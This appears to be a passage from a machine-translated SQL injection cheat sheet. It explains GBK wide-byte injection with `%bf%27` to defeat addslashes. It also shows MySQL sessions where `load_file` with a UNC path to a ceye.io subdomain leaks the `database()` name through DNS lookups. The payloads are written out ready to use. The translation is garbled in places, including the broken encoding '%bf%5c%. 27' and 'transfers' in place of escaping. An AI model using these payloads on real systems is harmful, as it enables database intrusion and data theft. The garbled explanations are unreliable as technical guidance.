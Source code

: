 
The most commonly used GBK code in the country, this way is mainly to bypass the transfer of special characters such as `addslashes`. The slash of backslash `\` is `%5c`. When you type `%bf%27`, the function encounters the single quotes and automatically transfers to `\`, which becomes `%bf%5c%. 27`,`%bf%5c`
In GBK it becomes a wide character &quot;缞&quot;. `%bf` The position can be any character in the middle of `%81-%fe`. Not only in SQL injection, wide character injection can be applied in many places.


### DNSLOG Injection


**DNS will leave a log when parsing, and obtain information by reading the parsing log of the multi-level domain name. Simply put, put the information in the advanced domain name, pass it to yourself, then read the log and get the information. **


Dnslog platform: [http://ceye.io/] (http://ceye.io/)


```

mysql> use security;

Database changed



mysql> select load_file('\\\\test.xxx.ceye.io\\abc');

+-------------------------------------------+

| load_file('\\\\test.xxx.ceye.io\\abc') |

+-------------------------------------------+

| NULL                                      |

+-------------------------------------------+

1 row in set (22.05 sec)



mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));

+----------------------------------------------------------------------+

| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |

+----------------------------------------------------------------------+

| NULL                                                                 |

+----------------------------------------------------------------------+

1 row in set (0.00 sec)

```
